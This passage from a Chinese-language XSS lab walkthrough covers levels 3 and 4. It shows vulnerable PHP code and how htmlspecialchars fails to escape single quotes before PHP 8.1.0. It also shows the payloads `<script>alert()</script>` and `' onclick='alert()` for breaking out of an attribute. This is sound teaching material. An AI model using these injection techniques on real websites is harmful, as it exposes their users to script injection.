 这关和上一关蛮像的，在输入框直接注入 `<script>alert()</script>`，然后右击查看网页源代码，发现不但 <h2> 标签里面的内容被 HTML 实体化了，<input> 标签里 value属性 的内容也被 HTML 实体化了！

```html
<h2 align=center>没有找到和&quot;&gt;&lt;script&gt;alert()&lt;/script&gt;相关的结果.</h2><center>
```

```html
<input name=keyword  value='&quot;&gt;&lt;script&gt;alert()&lt;/script&gt;'>	
```

后端用于将数据转换为 HTML 实体的函数源码如下：

```php
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>"."<center>
```

```php
<input name=keyword  value='".htmlspecialchars($str)."'>	
```

发现，其并不会将单引号 `'` 转换为 HTML 实体，故使用 **value 标签属性闭合 + 注入事件属性**：

> 注：在 8.1.0 及以上的 PHP 版本中，这个函数默认会转义 `<`、`>`、`&`、`'`、`"` 这五个字符，基本可以防范这里的 XSS 攻击。
> 但是，8.1.0 以下版本的 PHP 默认只会转义 `<`、`>`、`&`、`"` 这四个字符，不会转义单引号 `'`。这就给这个函数带来了巨大的安全隐患。

```js
// 第 1 个单引号用于与 value 属性的第一个单引号构成闭合, 即构成 value=''
// 第 2 个单引号用于与 value 属性的第二个单引号构成闭合, 即构成 onclick='alert()'
' onclick='alert()
```

注入结果：

```html
<input name="keyword" value="" onclick="alert()">
```

**扩展：请思考为什么注入时使用的单引号`'`，而在前端页面被显示成了双引号`"`？？？**



## 第 04 关：标签属性闭合 + 注入事件属性

在输入框直接注入 `<script>alert()</script>`，然后右击查看网页源代码，发现 <h2> 标签里面的内容被 HTML 实体化了，<input> 标签里 value 属性的内容被过滤掉了`<`及`>`！

```html
<h2 align=center>没有找到和&lt;script&gt;alert()&lt;/script&gt;相关的结果.</h2><center>
```

```html
<input name=keyword  value="scriptalert()/script">
```

后端用于数据过滤的源码如下：

```php
$str = $_GET["keyword"];
$str2=str_replace(">","",$str);
$str3=str_replace("<","",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<input name=keyword  value="'.$str3.'">
```
